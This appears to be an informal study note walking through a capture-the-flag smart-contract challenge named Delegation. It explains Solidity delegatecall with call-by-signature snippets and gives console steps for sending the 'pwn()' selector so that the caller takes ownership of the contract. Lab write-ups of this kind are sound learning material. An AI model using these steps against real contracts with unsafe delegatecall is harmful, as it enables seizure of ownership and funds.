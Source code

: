 ## Delegation

1. I forget it sometimes and need to revise sometimes, so there is contractA i.e. Delegate and contractB i.e Delegation... the functions of contractA are called by contractB in the context of contractB
2. Meaning contract Delegation has owner and that owner can be changed using the function pwn() of contract Delegate

> Not Important
> ps: you can read soliditybyexamples delegate call which i highly refer bc austin griffith is awesome mentor and always mentioned that reference and that was very helpful to me, in early days i forgot some concept and i went to solidity by examples for reference instead of solidity docs...

> Note: state or address of owner of Delegate contract remains the same even after the pwn() is called via delegatecall() because it changes the state only of Delegation contract, also refer fallback() and receive() if you don't know about them.

3. you need to pass the abiWithEncode/abiWithSignature or interface as msg.data, it is bytes8 hex of the function hash. I will add the examples so that I will be able to quickly read them

> Code

#### detailed

```solidity
function sendAlert(address hero) external {
        bytes4 signature = bytes4(keccak256("alert()"));
        (bool success, ) = hero.call(abi.encodePacked(signature));
        require(success);
    }
```

#### non detailed one from AU

```solidity
function sendAlert(address hero) external {
        bytes4 signature = bytes4(keccak256("alert()"));
        (bool success, ) = hero.call(abi.encodePacked(signature));
        require(success);
    }
```

or

```solidity
bytes memory payload = abi.encodeWithSignature("rumble()");

(bool success, ) = hero.call(payload);
```

#### here is an example with arguments

And if you want to add arguments, you can add them to signature and as comma separted arguments to the encodeWithSignature method. If rumble took two uint arguments, we could pass them like this:

```solidity
bytes memory payload = abi.encodeWithSignature("rumble(uint256,uint256)", 10, 5);

(bool success, ) = hero.call(payload);
```

We won't use another contract to do this but javaScript but you can do it using Remix using above methods

4. To get the keccak hash of pwn(), you can `const pwnsig = web3.utils.sha3("pwn()")` note the web3 node lib.
   Alternatively, you can go to `https://cypherhash.vercel.app/hash` and put `pwn()` and click the hash output and it will be copied...

5. then you can just enter that hash `await contract.sendTransaction({data: <signature/digest/hash>})` => `await contract.owner()` => outputs your address

6. success

> tldr; pwn = own || pwned = owned
> Bonus: in case you already know "pwn" meaning you can skip, pwn is mostly used by hackers who are too much into it... idk any way to explain that, many people know what it means and many didn't ... many people know it bc they are researchers or must have heard it from somewhere and many don't bc it's not like you need to know everything

